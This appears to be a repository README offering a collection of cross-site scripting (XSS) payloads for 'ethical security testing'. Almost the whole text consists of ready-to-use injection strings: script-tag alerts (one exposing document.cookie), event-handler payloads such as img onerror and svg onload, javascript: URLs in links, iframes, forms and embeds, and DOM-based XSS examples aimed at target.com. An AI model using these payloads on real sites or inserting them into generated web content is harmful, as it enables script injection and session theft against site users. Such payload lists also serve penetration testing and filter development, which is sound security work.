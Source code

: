 # ⚡ XSS (Cross-Site Scripting) Payloads Collection

> **Comprehensive XSS payloads for ethical security testing**

## ⚠️ **ETHICAL USE ONLY**
These payloads are for authorized testing only. Use responsibly and legally.

## 🎯 Basic XSS Payloads

### Simple Alert Payloads
```html
<script>alert('XSS')</script>
<script>alert(1)</script>
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>
<script>confirm('XSS')</script>
<script>prompt('XSS')</script>
```

### Event Handler Payloads
```html
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
<keygen onfocus=alert('XSS') autofocus>
<video><source onerror="alert('XSS')">
<audio src=x onerror=alert('XSS')>
```

### JavaScript Protocol Payloads
```html
<a href="javascript:alert('XSS')">Click me</a>
<iframe src="javascript:alert('XSS')"></iframe>
<form action="javascript:alert('XSS')">
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
```

## 🔥 Advanced XSS Payloads

### DOM-Based XSS
```javascript
// URL fragment exploitation
http://target.com/page.html#<script>alert('XSS')</script>

// Document.write exploitation
<script>document.write('<img src=x onerror=alert(1)>')</script>

// innerHTML exploitation
<img src=x onerror="this.parentNode.innerHTML='<script>alert(1)</script>'">

// Location manipulation
<script>location='javascript:alert(1)'</script>
```
